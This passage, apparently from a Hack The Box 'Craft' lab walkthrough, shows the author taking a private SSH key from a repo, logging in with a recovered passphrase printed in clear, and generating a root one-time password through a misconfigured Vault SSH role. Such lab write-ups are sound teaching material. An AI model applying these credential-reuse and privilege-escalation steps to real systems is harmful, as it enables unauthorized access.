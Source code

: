 I tried to ssh in using some of the new credentials but that did not work so I went back to the Github page and tried to log in with the new credentials and I could as the user ```gilfoyle```. Right away I see he has a private github repo and in there he has some ssh keys. I grab the private key and download it and use that to ssh into the box as the user ```gilfoyle```
```
# ssh -i id_rsa gilfoyle@10.10.10.110
```
It asks for a password so I enter the password for I got from the SQL database ```ZEU3N8WNM2rh4T```.
```
Enter passphrase for key 'id_rsa': 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Nov  7 17:54:03 2019 from 10.10.14.39
gilfoyle@craft:~$
```
I can now read the ```user.txt``` file
```
gilfoyle@craft:~$ cat user.txt 
bbf4b0cadfa3d4e***************
```
Running ```ls -la``` in gilfoyles ```/home``` directory will reveal an interesting file named ```.vault-token```.
```
gilfoyle@craft:~$ ls -la
total 36
drwx------ 4 gilfoyle gilfoyle 4096 Feb  9  2019 .
drwxr-xr-x 3 root     root     4096 Feb  9  2019 ..
-rw-r--r-- 1 gilfoyle gilfoyle  634 Feb  9  2019 .bashrc
drwx------ 3 gilfoyle gilfoyle 4096 Feb  9  2019 .config
-rw-r--r-- 1 gilfoyle gilfoyle  148 Feb  8  2019 .profile
drwx------ 2 gilfoyle gilfoyle 4096 Feb  9  2019 .ssh
-r-------- 1 gilfoyle gilfoyle   33 Feb  9  2019 user.txt
-rw------- 1 gilfoyle gilfoyle   36 Nov  7 17:55 .vault-token
-rw------- 1 gilfoyle gilfoyle 2546 Feb  9  2019 .viminfo
```
Going back to the github repo will reveal a ```Vault``` folder and inside is a ```secrets.sh``` script.
```
#!/bin/bash

# set up vault secrets backend

vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```
After reading the documentation on vault and how it works I figured out that is the steup for a one time password generator. Basically I can trigger it to generate a password for that can be used to ssh in as the user root.
<br>
I generate a password using the command below. The password is the ```key```
```
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=10.10.10.110
Key                Value
---                -----
lease_id           ssh/creds/root_otp/d1c4244a-97ee-b2c4-819a-bd09079bde97
```